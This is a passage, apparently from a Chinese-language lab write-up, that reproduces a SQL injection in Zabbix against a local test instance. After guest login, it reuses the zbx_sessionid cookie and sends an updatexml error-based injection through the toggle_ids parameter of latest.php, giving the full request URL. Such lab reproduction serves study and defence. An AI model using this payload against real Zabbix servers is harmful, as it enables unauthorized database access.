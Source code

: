 ```
    - "8080:80"
# 当然也可以通过 netstat 查询
```
* 查看部署情况
  通过宿主机进行打开  
  攻击机已知靶机ip，且靶机系统未关闭默认开启guest账户登陆

  ![image](../image/zabbix_login.png)
#### 2.bug使用
* 登录后，查看Cookie中的zbx_sessionid：   
  ![image](../image/zabbix_cookie.png)
* 将这zbx_sessionid作为sid(不必须为sessionid)的值，访问   
  http://192.168.1.13:8080/latest.php?output=ajax&sid=8251b8db1104896e&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)